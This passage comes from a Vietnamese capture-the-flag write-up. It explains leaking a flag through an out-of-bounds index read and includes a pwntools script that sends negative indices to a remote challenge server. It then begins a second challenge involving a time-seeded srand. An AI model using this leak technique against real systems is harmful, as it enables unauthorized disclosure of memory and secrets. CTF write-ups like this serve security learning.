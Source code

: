 vậy muốn lấy được kí tự của flag thì chỉ việc dùng : ```địa chỉ cần leak - địa chỉ rbp-0x110 = ``` giá trị sẽ là idx ta nhập vào



- trên sever thì idx khá là xa với local :>>

![image](https://hackmd.io/_uploads/HkLYipiSJl.png)


và ta có flag

![image](https://hackmd.io/_uploads/BybM6psS1e.png)

script 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./chal',checksec=False)

#p = process()
p = remote('23.146.248.230', 12343)
p.sendlineafter(b'input: ',b'phuocloideptrai')
flag = b''
for i in range(-48,30):
    p.sendlineafter(b'inspect: ',f"{i}".encode())
    p.recvuntil(b'is ')
    p.recv(1)
    flag += p.recv(1)
print(flag)


p.interactive()
```



## Infinite Recursion


checksec : 

![image](https://hackmd.io/_uploads/B1iSWAsHJx.png)


reverse : 

- lấy time() gán cho v3 và nó sẽ ```srand``` với seed là v3 -> vậy ta có thể biết được giá trị của srand() tạo ra 
- ta thấy ở cuối cùng nó sẽ thực thi ```system``` cho ta sau khi thực hiện hàm ```rand_fun``` xong ,  

![image](https://hackmd.io/_uploads/H1I8WRjSyx.png)

